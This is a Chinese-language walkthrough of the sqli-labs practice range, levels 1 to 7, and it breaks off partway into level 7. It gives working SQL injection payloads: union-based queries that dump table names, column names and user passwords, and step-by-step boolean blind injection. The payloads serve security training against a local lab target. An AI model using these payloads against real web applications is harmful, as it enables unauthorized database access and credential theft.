# sql-labs

+ 参考通关秘籍：[sqli-labs 1-65 通关讲解](https://blog.csdn.net/dreamthe/article/details/123795302?ops_request_misc=%7B%22request%5Fid%22%3A%22170443063816800227461809%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170443063816800227461809&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-123795302-null-null.142^v99^control&utm_term=sqli-labs通关&spm=1018.2226.3001.4187)
+ 参考通关秘籍：[ Sqli-labs1~65关 通关详解 解题思路+解题步骤+解析_sqlilabs靶场1–65过关](https://blog.csdn.net/Jayjay___/article/details/132081414?ops_request_misc=%7B%22request%5Fid%22%3A%22171120104816800215076877%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=171120104816800215076877&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-2-132081414-null-null.142^v99^pc_search_result_base4&utm_term=sqli-labs通关&spm=1018.2226.3001.4187)
+ 参考通关秘籍：[Sqli-lab教程-史上最全详解（1-22通关）](https://blog.csdn.net/qq_52364123/article/details/130061490?ops_request_misc=%7B%22request%5Fid%22%3A%22171120104816800215076877%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=171120104816800215076877&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_click~default-5-130061490-null-null.142^v99^pc_search_result_base4&utm_term=sqli-labs通关&spm=1018.2226.3001.4187)

## sql-labs安装

+ 修改对应文件<code>phpstudy_pro\WWW\sqli-labs\sql-connections\db-creds.inc</code>下的账号及密码

+ 网站所用的<code>php</code>版本设置为<code>php5</code>版本

+ 打开对应的网址，点击下图红框中的语句初始化数据库

+ 出现下面的画面，表示数据库初始化成功

## mysql数据结构

~~~ tex
    练习靶场前需了解以下mysql数据库结构，mysql数据库5.0以上版本有一个自带的数据库叫做information_schema,该数据库下面有两个表一个是tables和columns。tables这个表的table_name字段下面是所有数据库存在的表名。table_schema字段下是所有表名对应的数据库名。columns这个表的colum_name字段下是所有数据库存在的字段名。columns_schema字段下是所有表名对应的数据库。
~~~

## sql-labs通关

### Less-1

#### 判断是否存在sql注入

1. 提示输入数字值的ID作为参数，输入<code>?id=1</code>



2. 分别注入<code>?id=1</code>、<code>?id=2</code>、<code>?id=3</code>，注入的数字值不同返回的内容也不同所以可以判断注入的内容已经被带入到数据库里查询

3. 分别注入<code>?id=1'</code>和<code>?id=1'--+</code>, 判断sql语句是否可以拼接，且是字符型还是数字型



+ 可根据上面结果确定是字符型注入且存在sql注入漏洞

+ 该页面存在回显，所以可用联合查询。联合查询就是两个sql语句一起查询，两张表具有相同列数且字段名一样.

#### 联合注入查询

1. 注入<code>?id=1'order by 3 --+</code>和<code>?id=1'order by 4 --+</code> 知道表格有几列，如果报错就是超过列数，如果显示正常就是没有超出列数

~~~ shell
?id=1'order by 3 --+
?id=1'order by 4 --+
~~~





2. 注入<code>?id=-1'union select 1,2,3--+</code>爆显示位，看表格里哪一列在页面显示；可看到第二列和第三列里的数据显示在页面

~~~ shell
?id=-1'union select 1,2,3--+
~~~



3. 注入<code>?id=-1'union select 1,database(),version()--+</code>获取当前数据库名和版本号，这个涉及mysql数据库的一些函数，记得就行

~~~ shell
?id=-1'union select 1,database(),version()--+
~~~

4. 注入<code>?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+</code>爆数据表，

~~~ shell
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

information_schema.tables表示该数据库下的tables表，点表示下一级;where后面是条件，group_concat()是将查询到结果连接起来;如果不用group_concat查询到的只有user;
该语句的意思是查询information_schema数据库下的tables表里面且table_schema字段内容是security的所有table_name的内容，也即下面表格user和passwd;
~~~







5. 注入<code>?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+</code>爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在users表中。接下来想得到该表下的字段名以及内容。

~~~ shell
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

该语句意思是查询information_schema数据库下的columns表里table_name字段是users的所有column_name内容。注意table_name字段不是只存在于tables表也存在于columns表中;其实是表示所有字段对应的表名;
~~~





6. 通过上述操作可得到两敏感字段<code>username</code>和<code>password</code>,接下来注入<code>?id=-1' union select 1,2,group_concat(username ,id , password) from users--+</code>得到字段对应的内容，在中间加了一个id可以隔一下账户和密码。

~~~ shell
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
~~~

### Less-2

+ 第二关地址

~~~ shell
http://localhost/sqli-labs/Less-2/
~~~

+ 和第一关是一样进行判断，当输入单引号或者双引号可看到报错且报错信息看不到数字，所有可猜测sql语句应该是数字型注入。

~~~ 
?id=1 '
?id=1 "
~~~







+ 然后基本注入方式和第一关一样，注入语句

~~~ shell
?id=1 order by 3
~~~

+ 注入

~~~ shell
?id=-1 union select 1,2,3
~~~

+ 注入

~~~ shell
?id=-1 union select 1,database(),version()
~~~

+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
~~~



+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'
~~~

+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(username, id, password) from users
~~~

### Less-3

+ 首先注入以下内容判断<code>sql</code>语句类型

~~~ shell
?id=1'
~~~



从上面的页面报错信息可推断<code>sql</code>语句是单引号字符型且有括号，所以需要闭合单引号且也需要考虑括号

+ 根据下面的代码构建进行<code>sql</code>注入，后面所有的代码以此为基础进行构造

~~~ shell
?id=1')--+
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~

+ 注入下面的<code>sql</code>语句：

~~~ shell
?id=1')--+
~~~



+ 注入以下语句进行

~~~ shell
?id=1') order by 3--+
~~~

+ 注入以下语句

~~~ shell
?id=1') order by 4--+
~~~



+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,3 --+
~~~



+ 注入以下语句

~~~ shell
?id=-1') union select 1,version(),database() --+
~~~

+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
~~~



+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='user'--+
~~~

+ 注入以下语句，成功爆破

~~~ shell
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~



### Less-4

+ 根据下面代码<code>sql</code>注入

~~~ shell
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
~~~

+ 首先注入以下语句

~~~ shell
?id=1
~~~



+ 注入以下语句

~~~ shell
?id=1'
~~~



没有变化，说明<code>sql</code>语句不是单引号<code>'</code>字符型

+ 注入以下语句

~~~ shell
?id=1"
~~~



根据页面报错信息得知<code>sql</code>语句是双引号字符型且有括号

+ 注入以下语句

~~~ shell
?id=1")--+
~~~



+ 注入以下语句

~~~ shell
?id=1") order by 3--+
~~~

+ 注入以下语句

~~~ shell
?id=1") order by 4--+
~~~

+ 注入以下语句

~~~ shell
?id=-1") union select 1,version(),database()--+
~~~

+ 注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'--+
~~~

+ 注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'--+
~~~

+ 最后注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(username,id,password) from users--+
~~~

### Less-5

+ 注入以下语句

~~~ shell
?id=1
~~~



+ 注入一下语句

~~~ shell
?id=1'
~~~



由此判断是字符型，且是单引号<code>'</code>闭合。但和前面四关不一样；因为页面虽然有东西，但只对于请求对错出现不一样页面而其余的就没有了。这个时候用联合注入没有用，因为联合注入需要页面有回显位。如果数据不显示只有对错页面显示则可选择布尔盲注。布尔盲注主要用到<code>length()</code>,<code>ascii()</code> ,<code>substr()</code>这三个函数，首先通过length()函数确定长度再通过另外两个函数<code>ascii()</code>以及<code>substr()</code>确定具体字符是什么。布尔盲注相对于联合注入需花费大量时间。

+ 首先确定数据库名字长度，先注入以下语句

~~~ shell
?id=1'and length((select database()))=7--+
#等于号可以换成小于号或者大于号，主要是判断数据库的长度。length()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
~~~



该画面是错误画面，可知数据库名长度不是7

再注入以下语句

~~~ shell
?id=1'and length((select database()))=8--+
~~~



该页面是正确画面，由此可知数据库名长度是8

最后注入以下语句

~~~ shell
?id=1'and length((select database()))=9--+
~~~



该画面是错误画面，可知数据库名长度不是9，由此可确定数据库名长度是8

+ 然后爆破数据库名，先注入以下语句再根据<code>ASCII</code>表确定数据库名第一个字符

~~~ shell
?id=1'and ascii(substr((select database()),1,1))=115--+
#substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
~~~



由下面的<code>ASCII</code>表可确定数据库名的第一个字符(十进制是115)是<code>s</code>

|  二进制  | 十进制 | 十六进制 |                  字符/缩写                   |                解释                |
| :------: | :----: | :------: | :------------------------------------------: | :--------------------------------: |
| 00000000 |   0    |    00    |                  NUL (NULL)                  |               空字符               |
| 00000001 |   1    |    01    |           SOH (Start Of Headling)            |              标题开始              |
| 00000010 |   2    |    02    |             STX (Start Of Text)              |              正文开始              |
| 00000011 |   3    |    03    |              ETX (End Of Text)               |              正文结束              |
| 00000100 |   4    |    04    |          EOT (End Of Transmission)           |              传输结束              |
| 00000101 |   5    |    05    |                ENQ (Enquiry)                 |                请求                |
| 00000110 |   6    |    06    |              ACK (Acknowledge)               |         回应/响应/收到通知         |
| 00000111 |   7    |    07    |                  BEL (Bell)                  |                响铃                |
| 00001000 |   8    |    08    |                BS (Backspace)                |                退格                |
| 00001001 |   9    |    09    |             HT (Horizontal Tab)              |             水平制表符             |
| 00001010 |   10   |    0A    |          LF/NL(Line Feed/New Line)           |               换行键               |
| 00001011 |   11   |    0B    |              VT (Vertical Tab)               |             垂直制表符             |
| 00001100 |   12   |    0C    |          FF/NP (Form Feed/New Page)          |               换页键               |
| 00001101 |   13   |    0D    |             CR (Carriage Return)             |               回车键               |
| 00001110 |   14   |    0E    |                SO (Shift Out)                |              不用切换              |
| 00001111 |   15   |    0F    |                SI (Shift In)                 |              启用切换              |
| 00010000 |   16   |    10    |            DLE (Data Link Escape)            |            数据链路转义            |
| 00010001 |   17   |    11    |  DC1/XON (Device Control 1/Transmission On)  |         设备控制1/传输开始         |
| 00010010 |   18   |    12    |            DC2 (Device Control 2)            |             设备控制2              |
| 00010011 |   19   |    13    | DC3/XOFF (Device Control 3/Transmission Off) |         设备控制3/传输中断         |
| 00010100 |   20   |    14    |            DC4 (Device Control 4)            |             设备控制4              |
| 00010101 |   21   |    15    |          NAK (Negative Acknowledge)          |     无响应/非正常响应/拒绝接收     |
| 00010110 |   22   |    16    |            SYN (Synchronous Idle)            |              同步空闲              |
| 00010111 |   23   |    17    |       ETB (End of Transmission Block)        |       传输块结束/块传输终止        |
| 00011000 |   24   |    18    |                 CAN (Cancel)                 |                取消                |
| 00011001 |   25   |    19    |              EM (End of Medium)              | 已到介质末端/介质存储已满/介质中断 |
| 00011010 |   26   |    1A    |               SUB (Substitute)               |             替补/替换              |
| 00011011 |   27   |    1B    |                 ESC (Escape)                 |             逃离/取消              |
| 00011100 |   28   |    1C    |             FS (File Separator)              |             文件分割符             |
| 00011101 |   29   |    1D    |             GS (Group Separator)             |          组分隔符/分组符           |
| 00011110 |   30   |    1E    |            RS (Record Separator)             |             记录分离符             |
| 00011111 |   31   |    1F    |             US (Unit Separator)              |             单元分隔符             |
| 00100000 |   32   |    20    |                   (Space)                    |                空格                |
| 00100001 |   33   |    21    |                      !                       |                                    |
| 00100010 |   34   |    22    |                      "                       |                                    |
| 00100011 |   35   |    23    |                      #                       |                                    |
| 00100100 |   36   |    24    |                      $                       |                                    |
| 00100101 |   37   |    25    |                      %                       |                                    |
| 00100110 |   38   |    26    |                      &                       |                                    |
| 00100111 |   39   |    27    |                      '                       |                                    |
| 00101000 |   40   |    28    |                      (                       |                                    |
| 00101001 |   41   |    29    |                      )                       |                                    |
| 00101010 |   42   |    2A    |                      *                       |                                    |
| 00101011 |   43   |    2B    |                      +                       |                                    |
| 00101100 |   44   |    2C    |                      ,                       |                                    |
| 00101101 |   45   |    2D    |                      -                       |                                    |
| 00101110 |   46   |    2E    |                      .                       |                                    |
| 00101111 |   47   |    2F    |                      /                       |                                    |
| 00110000 |   48   |    30    |                      0                       |                                    |
| 00110001 |   49   |    31    |                      1                       |                                    |
| 00110010 |   50   |    32    |                      2                       |                                    |
| 00110011 |   51   |    33    |                      3                       |                                    |
| 00110100 |   52   |    34    |                      4                       |                                    |
| 00110101 |   53   |    35    |                      5                       |                                    |
| 00110110 |   54   |    36    |                      6                       |                                    |
| 00110111 |   55   |    37    |                      7                       |                                    |
| 00111000 |   56   |    38    |                      8                       |                                    |
| 00111001 |   57   |    39    |                      9                       |                                    |
| 00111010 |   58   |    3A    |                      :                       |                                    |
| 00111011 |   59   |    3B    |                      ;                       |                                    |
| 00111100 |   60   |    3C    |                      <                       |                                    |
| 00111101 |   61   |    3D    |                      =                       |                                    |
| 00111110 |   62   |    3E    |                      >                       |                                    |
| 00111111 |   63   |    3F    |                      ?                       |                                    |
| 01000000 |   64   |    40    |                      @                       |                                    |
| 01000001 |   65   |    41    |                      A                       |                                    |
| 01000010 |   66   |    42    |                      B                       |                                    |
| 01000011 |   67   |    43    |                      C                       |                                    |
| 01000100 |   68   |    44    |                      D                       |                                    |
| 01000101 |   69   |    45    |                      E                       |                                    |
| 01000110 |   70   |    46    |                      F                       |                                    |
| 01000111 |   71   |    47    |                      G                       |                                    |
| 01001000 |   72   |    48    |                      H                       |                                    |
| 01001001 |   73   |    49    |                      I                       |                                    |
| 01001010 |   74   |    4A    |                      J                       |                                    |
| 01001011 |   75   |    4B    |                      K                       |                                    |
| 01001100 |   76   |    4C    |                      L                       |                                    |
| 01001101 |   77   |    4D    |                      M                       |                                    |
| 01001110 |   78   |    4E    |                      N                       |                                    |
| 01001111 |   79   |    4F    |                      O                       |                                    |
| 01010000 |   80   |    50    |                      P                       |                                    |
| 01010001 |   81   |    51    |                      Q                       |                                    |
| 01010010 |   82   |    52    |                      R                       |                                    |
| 01010011 |   83   |    53    |                      S                       |                                    |
| 01010100 |   84   |    54    |                      T                       |                                    |
| 01010101 |   85   |    55    |                      U                       |                                    |
| 01010110 |   86   |    56    |                      V                       |                                    |
| 01010111 |   87   |    57    |                      W                       |                                    |
| 01011000 |   88   |    58    |                      X                       |                                    |
| 01011001 |   89   |    59    |                      Y                       |                                    |
| 01011010 |   90   |    5A    |                      Z                       |                                    |
| 01011011 |   91   |    5B    |                      [                       |                                    |
| 01011100 |   92   |    5C    |                      \                       |                                    |
| 01011101 |   93   |    5D    |                      ]                       |                                    |
| 01011110 |   94   |    5E    |                      ^                       |                                    |
| 01011111 |   95   |    5F    |                      _                       |                                    |
| 01100000 |   96   |    60    |                      `                       |                                    |
| 01100001 |   97   |    61    |                      a                       |                                    |
| 01100010 |   98   |    62    |                      b                       |                                    |
| 01100011 |   99   |    63    |                      c                       |                                    |
| 01100100 |  100   |    64    |                      d                       |                                    |
| 01100101 |  101   |    65    |                      e                       |                                    |
| 01100110 |  102   |    66    |                      f                       |                                    |
| 01100111 |  103   |    67    |                      g                       |                                    |
| 01101000 |  104   |    68    |                      h                       |                                    |
| 01101001 |  105   |    69    |                      i                       |                                    |
| 01101010 |  106   |    6A    |                      j                       |                                    |
| 01101011 |  107   |    6B    |                      k                       |                                    |
| 01101100 |  108   |    6C    |                      l                       |                                    |
| 01101101 |  109   |    6D    |                      m                       |                                    |
| 01101110 |  110   |    6E    |                      n                       |                                    |
| 01101111 |  111   |    6F    |                      o                       |                                    |
| 01110000 |  112   |    70    |                      p                       |                                    |
| 01110001 |  113   |    71    |                      q                       |                                    |
| 01110010 |  114   |    72    |                      r                       |                                    |
| 01110011 |  115   |    73    |                      s                       |                                    |
| 01110100 |  116   |    74    |                      t                       |                                    |
| 01110101 |  117   |    75    |                      u                       |                                    |
| 01110110 |  118   |    76    |                      v                       |                                    |
| 01110111 |  119   |    77    |                      w                       |                                    |
| 01111000 |  120   |    78    |                      x                       |                                    |
| 01111001 |  121   |    79    |                      y                       |                                    |
| 01111010 |  122   |    7A    |                      z                       |                                    |
| 01111011 |  123   |    7B    |                      {                       |                                    |
| 01111100 |  124   |    7C    |                      \|                      |                                    |
| 01111101 |  125   |    7D    |                      }                       |                                    |
| 01111110 |  126   |    7E    |                      ~                       |                                    |
| 01111111 |  127   |    7F    |                 DEL (Delete)                 |                删除                |

再注入以下语句判断数据库名的第二个字符

~~~ shell
?id=1'and ascii(substr((select database()),2,1))=101--+
~~~



依次注入不同参数的<code>sql</code>语句爆破数据库名的其他字符串

~~~ shell
?id=1'and ascii(substr((select database()),3,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),4,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),5,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),6,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),7,1))=(这里一个十进制数据)--+
?id=1'and ascii(substr((select database()),8,1))=(这里一个十进制数据)--+
~~~

+ 然后是注入以下<code>sql</code>语句爆破数据表的长度

~~~ shell
?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))=29--+
判断所有表名字符长度。
~~~



返回了正确页面，说明数据表名联合长度就是29

+ 同样的注入以下语句根据<code>ASCII</code>表逐个字符地判断联合数据表名是什么

~~~ shell
?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=101--+
逐一判断表名
~~~



根据<code>ASCII</code>表说明联合数据表名第一个字符是<code>e</code>，其余字符的爆破省略

+ 爆破联合字段名长度

~~~ shell
?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))=20--+
判断所有字段名的长度
~~~



返回了正确页面，说明联合字段名长度是20

+ 注入以下语句逐一爆破字段名

~~~ shell
?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
逐一判断字段名
~~~



根据返回页面是否正确逐一爆破字段名

+ 注入以下语句判断字段内容长度

~~~ shell
?id=1' and length((select group_concat(username,password) from users))>109--+
判断字段内容长度
~~~



+ 注入以下语句逐一确定字段内容

~~~ shell
?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
逐一检测内容。
~~~



### Less-6

+ 注入以下语句

~~~ shell
?id=1
~~~



+ 注入以下语句

~~~ shell
?id=1'
~~~



+ 再注入以下语句

~~~ shell
?id=1"
~~~



+ 注入以下语句闭合<code>sql</code>语句

~~~ shell
?id=1"--+
~~~



+ 确认数据库名长度

~~~ shell
?id=1"and length((select database()))>7--+
~~~



返回了正确页面，说明数据库名确实是大于7；同理可根据返回的页面正确与否逐步试探出数据库名的长度

+ 注入以下语句判断数据库名的第一个字符

~~~ shell
?id=1"and ascii(substr((select database()),1,1))=115--+
~~~



返回了正确页面，经过查<code>ASCII</code>表可知数据库名第一个字符是<code>s</code>

|  二进制  | 十进制 | 十六进制 |                  字符/缩写                   |                解释                |
| :------: | :----: | :------: | :------------------------------------------: | :--------------------------------: |
| 00000000 |   0    |    00    |                  NUL (NULL)                  |               空字符               |
| 00000001 |   1    |    01    |           SOH (Start Of Headling)            |              标题开始              |
| 00000010 |   2    |    02    |             STX (Start Of Text)              |              正文开始              |
| 00000011 |   3    |    03    |              ETX (End Of Text)               |              正文结束              |
| 00000100 |   4    |    04    |          EOT (End Of Transmission)           |              传输结束              |
| 00000101 |   5    |    05    |                ENQ (Enquiry)                 |                请求                |
| 00000110 |   6    |    06    |              ACK (Acknowledge)               |         回应/响应/收到通知         |
| 00000111 |   7    |    07    |                  BEL (Bell)                  |                响铃                |
| 00001000 |   8    |    08    |                BS (Backspace)                |                退格                |
| 00001001 |   9    |    09    |             HT (Horizontal Tab)              |             水平制表符             |
| 00001010 |   10   |    0A    |          LF/NL(Line Feed/New Line)           |               换行键               |
| 00001011 |   11   |    0B    |              VT (Vertical Tab)               |             垂直制表符             |
| 00001100 |   12   |    0C    |          FF/NP (Form Feed/New Page)          |               换页键               |
| 00001101 |   13   |    0D    |             CR (Carriage Return)             |               回车键               |
| 00001110 |   14   |    0E    |                SO (Shift Out)                |              不用切换              |
| 00001111 |   15   |    0F    |                SI (Shift In)                 |              启用切换              |
| 00010000 |   16   |    10    |            DLE (Data Link Escape)            |            数据链路转义            |
| 00010001 |   17   |    11    |  DC1/XON (Device Control 1/Transmission On)  |         设备控制1/传输开始         |
| 00010010 |   18   |    12    |            DC2 (Device Control 2)            |             设备控制2              |
| 00010011 |   19   |    13    | DC3/XOFF (Device Control 3/Transmission Off) |         设备控制3/传输中断         |
| 00010100 |   20   |    14    |            DC4 (Device Control 4)            |             设备控制4              |
| 00010101 |   21   |    15    |          NAK (Negative Acknowledge)          |     无响应/非正常响应/拒绝接收     |
| 00010110 |   22   |    16    |            SYN (Synchronous Idle)            |              同步空闲              |
| 00010111 |   23   |    17    |       ETB (End of Transmission Block)        |       传输块结束/块传输终止        |
| 00011000 |   24   |    18    |                 CAN (Cancel)                 |                取消                |
| 00011001 |   25   |    19    |              EM (End of Medium)              | 已到介质末端/介质存储已满/介质中断 |
| 00011010 |   26   |    1A    |               SUB (Substitute)               |             替补/替换              |
| 00011011 |   27   |    1B    |                 ESC (Escape)                 |             逃离/取消              |
| 00011100 |   28   |    1C    |             FS (File Separator)              |             文件分割符             |
| 00011101 |   29   |    1D    |             GS (Group Separator)             |          组分隔符/分组符           |
| 00011110 |   30   |    1E    |            RS (Record Separator)             |             记录分离符             |
| 00011111 |   31   |    1F    |             US (Unit Separator)              |             单元分隔符             |
| 00100000 |   32   |    20    |                   (Space)                    |                空格                |
| 00100001 |   33   |    21    |                      !                       |                                    |
| 00100010 |   34   |    22    |                      "                       |                                    |
| 00100011 |   35   |    23    |                      #                       |                                    |
| 00100100 |   36   |    24    |                      $                       |                                    |
| 00100101 |   37   |    25    |                      %                       |                                    |
| 00100110 |   38   |    26    |                      &                       |                                    |
| 00100111 |   39   |    27    |                      '                       |                                    |
| 00101000 |   40   |    28    |                      (                       |                                    |
| 00101001 |   41   |    29    |                      )                       |                                    |
| 00101010 |   42   |    2A    |                      *                       |                                    |
| 00101011 |   43   |    2B    |                      +                       |                                    |
| 00101100 |   44   |    2C    |                      ,                       |                                    |
| 00101101 |   45   |    2D    |                      -                       |                                    |
| 00101110 |   46   |    2E    |                      .                       |                                    |
| 00101111 |   47   |    2F    |                      /                       |                                    |
| 00110000 |   48   |    30    |                      0                       |                                    |
| 00110001 |   49   |    31    |                      1                       |                                    |
| 00110010 |   50   |    32    |                      2                       |                                    |
| 00110011 |   51   |    33    |                      3                       |                                    |
| 00110100 |   52   |    34    |                      4                       |                                    |
| 00110101 |   53   |    35    |                      5                       |                                    |
| 00110110 |   54   |    36    |                      6                       |                                    |
| 00110111 |   55   |    37    |                      7                       |                                    |
| 00111000 |   56   |    38    |                      8                       |                                    |
| 00111001 |   57   |    39    |                      9                       |                                    |
| 00111010 |   58   |    3A    |                      :                       |                                    |
| 00111011 |   59   |    3B    |                      ;                       |                                    |
| 00111100 |   60   |    3C    |                      <                       |                                    |
| 00111101 |   61   |    3D    |                      =                       |                                    |
| 00111110 |   62   |    3E    |                      >                       |                                    |
| 00111111 |   63   |    3F    |                      ?                       |                                    |
| 01000000 |   64   |    40    |                      @                       |                                    |
| 01000001 |   65   |    41    |                      A                       |                                    |
| 01000010 |   66   |    42    |                      B                       |                                    |
| 01000011 |   67   |    43    |                      C                       |                                    |
| 01000100 |   68   |    44    |                      D                       |                                    |
| 01000101 |   69   |    45    |                      E                       |                                    |
| 01000110 |   70   |    46    |                      F                       |                                    |
| 01000111 |   71   |    47    |                      G                       |                                    |
| 01001000 |   72   |    48    |                      H                       |                                    |
| 01001001 |   73   |    49    |                      I                       |                                    |
| 01001010 |   74   |    4A    |                      J                       |                                    |
| 01001011 |   75   |    4B    |                      K                       |                                    |
| 01001100 |   76   |    4C    |                      L                       |                                    |
| 01001101 |   77   |    4D    |                      M                       |                                    |
| 01001110 |   78   |    4E    |                      N                       |                                    |
| 01001111 |   79   |    4F    |                      O                       |                                    |
| 01010000 |   80   |    50    |                      P                       |                                    |
| 01010001 |   81   |    51    |                      Q                       |                                    |
| 01010010 |   82   |    52    |                      R                       |                                    |
| 01010011 |   83   |    53    |                      S                       |                                    |
| 01010100 |   84   |    54    |                      T                       |                                    |
| 01010101 |   85   |    55    |                      U                       |                                    |
| 01010110 |   86   |    56    |                      V                       |                                    |
| 01010111 |   87   |    57    |                      W                       |                                    |
| 01011000 |   88   |    58    |                      X                       |                                    |
| 01011001 |   89   |    59    |                      Y                       |                                    |
| 01011010 |   90   |    5A    |                      Z                       |                                    |
| 01011011 |   91   |    5B    |                      [                       |                                    |
| 01011100 |   92   |    5C    |                      \                       |                                    |
| 01011101 |   93   |    5D    |                      ]                       |                                    |
| 01011110 |   94   |    5E    |                      ^                       |                                    |
| 01011111 |   95   |    5F    |                      _                       |                                    |
| 01100000 |   96   |    60    |                      `                       |                                    |
| 01100001 |   97   |    61    |                      a                       |                                    |
| 01100010 |   98   |    62    |                      b                       |                                    |
| 01100011 |   99   |    63    |                      c                       |                                    |
| 01100100 |  100   |    64    |                      d                       |                                    |
| 01100101 |  101   |    65    |                      e                       |                                    |
| 01100110 |  102   |    66    |                      f                       |                                    |
| 01100111 |  103   |    67    |                      g                       |                                    |
| 01101000 |  104   |    68    |                      h                       |                                    |
| 01101001 |  105   |    69    |                      i                       |                                    |
| 01101010 |  106   |    6A    |                      j                       |                                    |
| 01101011 |  107   |    6B    |                      k                       |                                    |
| 01101100 |  108   |    6C    |                      l                       |                                    |
| 01101101 |  109   |    6D    |                      m                       |                                    |
| 01101110 |  110   |    6E    |                      n                       |                                    |
| 01101111 |  111   |    6F    |                      o                       |                                    |
| 01110000 |  112   |    70    |                      p                       |                                    |
| 01110001 |  113   |    71    |                      q                       |                                    |
| 01110010 |  114   |    72    |                      r                       |                                    |
| 01110011 |  115   |    73    |                      s                       |                                    |
| 01110100 |  116   |    74    |                      t                       |                                    |
| 01110101 |  117   |    75    |                      u                       |                                    |
| 01110110 |  118   |    76    |                      v                       |                                    |
| 01110111 |  119   |    77    |                      w                       |                                    |
| 01111000 |  120   |    78    |                      x                       |                                    |
| 01111001 |  121   |    79    |                      y                       |                                    |
| 01111010 |  122   |    7A    |                      z                       |                                    |
| 01111011 |  123   |    7B    |                      {                       |                                    |
| 01111100 |  124   |    7C    |                      \|                      |                                    |
| 01111101 |  125   |    7D    |                      }                       |                                    |
| 01111110 |  126   |    7E    |                      ~                       |                                    |
| 01111111 |  127   |    7F    |                 DEL (Delete)                 |                删除                |

+ 同样通过注入以下语句根据返回页面正确与否测试数据库名的后面几个字符

~~~ shell
?id=1" and ascii(substr((select database()),2,1))>101--+
?id=1" and ascii(substr((select database()),3,1))>101--+
?id=1" and ascii(substr((select database()),4,1))>101--+
?id=1" and ascii(substr((select database()),5,1))>101--+
...
~~~

+ 注入以下语句爆破联合数据表名长度

~~~ shell
?id=1" and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>5 --+
~~~



返回正确页面，说明联合数据表名长度大于5；同样可调整参数确定联合数据表名长度

+ 逐一爆破联合数据表名

~~~ shell
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>50--+
~~~



返回了正确页面，说明联合数据表名第一个字符的<code>ASCII</code>表的十进制大于50

+ 再修改参数逐步爆破整个联合数据表名

~~~ shell
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),2,1))>50--+
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),3,1))>50--+
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),4,1))>50--+
...
~~~

+ 再逐步爆破联合字段名长度

~~~ shell
?id=1" and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）')>20--+
~~~

+ 逐步爆破联合字段名

~~~ shell
?id=1" and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）'),1,1))>99--+
~~~

+ 最后检测想要的内容

~~~ shell
?id=1" and ascii(substr((select group_concat(（字段名）,（字段名）) from （数据表名）),1,1))>50--+
~~~

### Less-7

+ 注入以下语句

~~~ shell
?id=1
~~~



输入<code>id=1</code>,页面显示<code>you are in...</code> ，页面回显正确

+ 注入以下语句(单引号)

~~~ shell
?id=1'
~~~



当输入<code>id=1'</code>时显示报错但没有报错信息，这和之前的关卡不一样，之前都有报错信息

+ 注入以下语句(双引号)

~~~ shell
?id=1"
~~~



当输入<code>id=1"</code>时显示正常所以可断定参数<code>id</code>是单引号字符串，因为单引号破坏了原有语法结构

+ 注入以下语句

~~~ shell
?id=1'--+
~~~



输入<code>id=1'--+</code>时报错

